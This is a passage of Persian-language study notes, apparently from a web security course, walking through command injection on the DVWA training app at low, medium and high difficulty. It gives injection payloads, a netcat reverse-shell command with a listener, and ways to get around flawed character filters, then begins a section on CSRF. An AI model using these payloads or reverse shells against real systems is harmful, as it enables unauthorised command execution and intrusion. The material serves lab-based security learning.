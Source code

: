 - مثلا میتوانیم از کامند ها به شکل زیر استفاده کنیم >>
```sh
127.0.0.1 && ls
127.0.0.1 & ls
127.0.0.1 ; 127.0.0.1
127.0.0.1 | ls
```
- همچنین در روش پیشرفته میتوانیم با تزریق کدهای Reverse Shell، دسترسی Shell به ماشین تارگت بگیریم. البته در این روش باید Listener Netcat نیز از قبل فعال شده باشد.
```sh
sudo nc -lvnp 9001
127.0.0.1 && nc -c sh 127.0.0.1 9001
```
- *اسلاید*:
	- ![[Pasted image 20240722213014.png]]
#### Practical Demo
##### DVWA Command Injection - Low Difficulty
0. *Pre-Requires*
	1. Set security level on `low`
	2. goto `DVWA => Command Injection`
1. *Now in `Enter an ip address field` Enter below value*
	1. `127.0.0.1 && ls`
		1. ![[Pasted image 20240722213918.png]]
	2. now `ls` command executed on server.
		1. ![[Pasted image 20240722213214.png]]
2. *Use Reverse shell to execute command*
	1. Open Terminal in Kali and Start netcat Listener
		1. `nc -lnvp 9001`
	2. No go back to Command Injection page and Inject below command
		1. `127.0.0.1 && nc -c sh 127.0.0.1 9001`
			1. ![[Pasted image 20240722214235.png]]
	3. After run command we can access DVWA Shell in Kali Terminal
		1. ![[Pasted image 20240722214312.png]]
##### DVWA Command Injection - Medium Difficulty
در این مرحله، استفاده از یکسری کاراکتر ها مانند `&&, ;` ممنوع شده است. 
	![[Pasted image 20240722214401.png]]
اما همچنان با مشاهده کردن سورس میتوان مشاهده کرد که استفاده از `|` میسر است. بنابراین کافیست در فیلد `Enter an ip address field` مقدار زیر را وارد کنیم >>
	![[Pasted image 20240722213508.png]]
1. `127.0.0.1 | ls`
	1. ![[Pasted image 20240722214418.png]]
##### DVWA Command Injection - High Difficulty
- در این مرحله استفاده از `Typo |` و `Space` و بسیاری از کاراکتر های دیگر هم ممنوع شده است.
	- ![[Pasted image 20240722214507.png]]
- اما در کد های صفحه، در خطی که استفاده از `|` ممنوع شده است، میتوان مشاهده کرد که یک اشتباه تایپی وجود دارد و در واقع یک کارکتر Space در کنار Typo وارد شده است => ` |`
	- ![[Pasted image 20240722214751.png]]
- در واقع یک کاراکتر Space اضافه وارد شده است و به همین دلیل استفاده از ` |` ممنوع شده و میتوان از `ls|` بدون فاصله استفاده کرد. بنابراین میتوان در این مرحله هم با وارد کردن `ls|` بدون فاصله نتیجه کامند را مشاهده کنیم.
- `|ls`
	- ![[Pasted image 20240722214930.png]]
	- ![[Pasted image 20240722214952.png]]
### CSRF Basics & Exploitation - E67
#### Definition & Instruction
##### What is CSRF(Cross Site Request Forgery)?
- نوعی از حمله میباشد که در صورتی رخ میدهد که وبسایت، ایمیل و یا وبلاگی Malicious(مخرب و آلوده) باشد. 
- در این نوع حمله، Attacker با استفاده از Web Browser خود دستورات و اکشن های غیر مجازی را بر روی یک هاست Trust اعمال میکند.